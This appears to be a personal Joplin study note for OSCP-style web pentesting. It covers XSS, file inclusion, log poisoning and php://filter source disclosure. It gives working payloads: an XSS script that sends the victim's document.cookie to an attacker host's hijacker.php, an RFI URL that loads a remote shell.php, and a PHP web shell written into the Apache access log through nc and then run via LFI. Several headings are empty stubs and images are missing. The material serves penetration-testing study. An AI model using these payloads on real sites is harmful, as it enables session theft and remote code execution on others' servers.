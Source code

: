 Website Exploit

# XSS

## Reverse Shell

## Using Beef

Beef

\*\*Note: \*\*XSS only works if an authenticated user accesses the webpage

# Steal Cookie Session

Cookies have two optional flags of interest to pentesters: Secure and HttpOnly

<ins>**Secure flag**</ins> \-\-\- instructs browser to only send the cookie over encrypted connections. This protects cookie from being sent in cleartext and captured over the network

- Make sure the website is not using HTTPS

<ins>**HttpOnly**</ins> \-\-\- instructs browser to deny JS access to the cookie. If the flag is not set, we can use an XSS payload to steal the cookie.

- If HTTPOnly is set, we can try to use cookie jar overflow
- ![b7757caf5e1a534ff942c14219c18e0f.png](:/d74f9f4349a046bbb52b0e421c07954d)
- In Firefox console, the cookie did not overflow and got removed; instead we manually deleted the cookie and allowed the browser to overwrite. We can also manually edit the cookie; however, this will not work unless we programme it to
- We can do a for-loop, then

First, use an XSS script if HttpOnly is not set

> &lt;script&gt;new Image().src=’[http://10.11.0.4/hijacker.php?cookie=’+document.cookie;](http://10.11.0.4/hijacker.php?cookie=%E2%80%99+document.cookie;)&lt;/script&gt;

When we have our web server open, we will see the user accessing, and the Session ID generated

Use Cookie-Editor to access the webpage

# File Inclusion Vulnerabilities

Check values of register\_globals, allow\_url wrappers.

- In [version](https://www.plus2net.com/php_tutorial/php-version.php) PHP 5 and above by default, *register_global* is kept OFF.
- If allow\_url\_include or allow\_url\_fopen is enabled, proceed to do RFI

If have access to source code, check for **include** and code that are poorly design e.g.

- $file = $_GET\['page'\];

Make sure to look out for parameters that are linked to files (signs of file inclusion)

![28d96990055803bbc316ed7557f0ea00.png](:/a43d4d1f5d3b4e1a9802a632d5ca66e3)

> 192.168.0.2/DVWA/vulnerabilities/fi/?page=http://192.168.0.5:8000/shell.php #For RFI

Sometimes, the LFI is in the Request sent. Example shown is from OSCP machine we did

<img src=":/9c71d821603843889d4313b4d820bcb2" alt="1e1c6c65502bd520d973599be7b3ac72.png" width="851" height="514" class="jop-noMdConv">

Sometimes during a Local File Inclusion, the web server appends ‘.php’ to the included file. For example, including ‘/etc/passwd’ gets rendered as ‘/etc/passwd.php’. This occurs when the include function uses a parameter like *?page* and concatenates the .php extension to the file. In versions of PHP below 5.3, ending the URL with a null byte (%00) would cause the interpreter to stop reading, which would allow the attacker to include their intended page.

# Log File Poisoning

Logs to look into trying - https://www.thegeekstuff.com/2011/08/linux-var-log-files/

FTP - /var/log/**vsftp.d**

SSH, login info - /var/log/**auth.log**

HTTP - On windows if xampp, C:\\xampp\\apache\\logs\\access.log; On Linux, /var/log/apache2/access.log

> nc 192.168.1.102 80
> 
> &lt;?php echo 'pre&gt;' . shell\_exec($\_GET\['cmd'\]) . '&lt;/pre&gt;';?>
> 
> \# To access log

After writing to the log file, run the file

> http://192.168.1.102/index.php?page=../../../../../var/log/apache2/access.log&cmd=id

# Bypassing php-execution

So if you have an LFI you can easily read `.txt`-files but not `.php` files. That is because they get executed by the webserver, since their file-ending says that it contains code. This can be bypassed by using a build-in php-filter.

> http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index 

Here you use a php-filter to convert it all into base64. So in return you get the whole page base64 encoded. Now you only need to decode it. Save the base64-text into a file and then run:

> base64 -d savefile.php

id: 1094d9f035074e3a8ef344a61a88cf5e
parent_id: 8e7bd5349cf3494986eccd0619b576c9
created_time: 2022-01-25T01:48:20.761Z
updated_time: 2022-01-25T16:46:37.710Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-25T01:48:20.761Z
user_updated_time: 2022-01-25T16:46:37.710Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1